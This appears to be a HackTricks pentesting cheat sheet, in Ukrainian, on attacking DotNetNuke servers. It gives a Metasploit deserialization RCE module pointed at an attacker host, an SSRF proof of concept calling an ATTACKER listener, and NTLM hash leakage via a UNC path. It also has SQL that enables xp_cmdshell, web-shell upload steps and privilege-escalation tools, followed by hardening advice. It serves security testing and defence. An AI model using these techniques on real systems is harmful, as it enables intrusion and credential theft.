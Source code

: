 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Якщо ви входите як **адміністратор** в DNN, легко отримати **RCE**, однак за останні кілька років було опубліковано ряд *неавтентифікованих* та *пост-автентифікаційних* технік. Наступна шпаргалка збирає найбільш корисні примітиви для як наступальних, так і захисних робіт.

---
## Перерахунок версій та середовища

* Перевірте заголовок HTTP-відповіді *X-DNN* – зазвичай він розкриває точну версію платформи.
* Майстер установки розкриває версію в `/Install/Install.aspx?mode=install` (доступно на дуже старих установках).
* `/API/PersonaBar/GetStatus` (9.x) повертає JSON-об'єкт, що містить `"dnnVersion"` для користувачів з низькими привілеями.
* Типові куки, які ви побачите на живій інстанції:
* `.DOTNETNUKE` – квиток аутентифікації форм ASP.NET.
* `DNNPersonalization` – містить XML/серіалізовані дані профілю користувача (старі версії – див. RCE нижче).

---
## Неавтентифіковане використання

### 1. Десеріалізація куків RCE  (CVE-2017-9822 та подальші)
*Постраждалі версії ≤ 9.3.0-RC*

`DNNPersonalization` десеріалізується при кожному запиті, коли вбудований обробник 404 увімкнено. Отже, підготовлений XML може призвести до довільних ланцюгів гаджетів та виконання коду.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Модуль автоматично обирає правильний шлях для патчених, але все ще вразливих версій (CVE-2018-15811/15812/18325/18326). Експлуатація працює **без аутентифікації** на 7.x–9.1.x і з *перевіреним* обліковим записом з низькими привілеями на 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Постраждалі версії < 9.13.8  –  Патч випущено в квітні 2025 року*

Обхід старого виправлення `DnnImageHandler` дозволяє зловмиснику примусити сервер виконувати **произвольні GET запити** (напівсліпий SSRF). Практичні наслідки:

* Внутрішнє сканування портів / виявлення метаданих у хмарних розгортаннях.
* Доступ до хостів, які інакше заблоковані брандмауером від Інтернету.

Доказ концепції (замініть `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
Запит викликається у фоновому режимі; слідкуйте за вашим слухачем для зворотних викликів.

### 3. Витік NTLM Hash через UNC перенаправлення (CVE-2025-52488)
*Постраждалі версії 6.0.0 – 9.x (< 10.0.1)*

Спеціально підготовлений контент може змусити DNN спробувати отримати ресурс, використовуючи **UNC шлях** такий як `\\attacker\share\img.png`. Windows з радістю виконає NTLM переговори, витікаючи хеші облікових записів сервера до атакуючого. Оновіть до **10.0.1** або вимкніть вихідний SMB на брандмауері.

### 4. Обхід IP фільтрації (CVE-2025-52487)
Якщо адміністратори покладаються на *Host/IP Filters* для захисту адміністративного порталу, майте на увазі, що версії до **10.0.1** можуть бути обійдені шляхом маніпуляції `X-Forwarded-For` у сценарії зворотного проксі.

---
## Пост-аутентифікація до RCE

### Через SQL консоль
У **`Settings → SQL`** вбудоване вікно запитів дозволяє виконання проти бази даних сайту. На Microsoft SQL Server ви можете увімкнути **`xp_cmdshell`** і запускати команди:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Завантаження веб-шелу через ASPX
1. Перейдіть до **`Налаштування → Безпека → Більше → Додаткові налаштування безпеки`**.
2. Додайте `aspx` (або `asp`) до **Дозволені розширення файлів** та **Зберегти**.
3. Перейдіть до **`/admin/file-management`** та завантажте `shell.aspx`.
4. Викличте його за адресою **`/Portals/0/shell.aspx`**.

---
## Підвищення привілеїв на Windows
Якщо виконання коду досягнуто як **IIS AppPool\<Site>**, застосовуються звичайні техніки підвищення привілеїв Windows. Якщо система вразлива, ви можете скористатися:

* **PrintSpoofer** / **SpoolFool** для зловживання *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** для обходу *Службових облікових записів*.

---
## Рекомендації щодо зміцнення (Блакитна команда)

* **Оновіть** до принаймні **9.13.9** (виправляє обхід SSRF) або, бажано, **10.0.1** (проблеми з IP-фільтрацією та NTLM).
* Видаліть залишкові **`InstallWizard.aspx*`** файли після установки.
* Вимкніть вихідний SMB (порти 445/139).
* Застосуйте суворі *Фільтри хостів* на крайовому проксі, а не в DNN.
* Заблокуйте доступ до `/API/RemoteContentProxy`, якщо не використовується.

## Посилання

* Документація модуля Metasploit `dnn_cookie_deserialization_rce` – практичні деталі неавтентифікованого RCE (GitHub).
* Повідомлення про безпеку GitHub GHSA-3f7v-qx94-666m – інформація про обхід SSRF 2025 року та патчі.
{{#include ../../banners/hacktricks-training.md}}
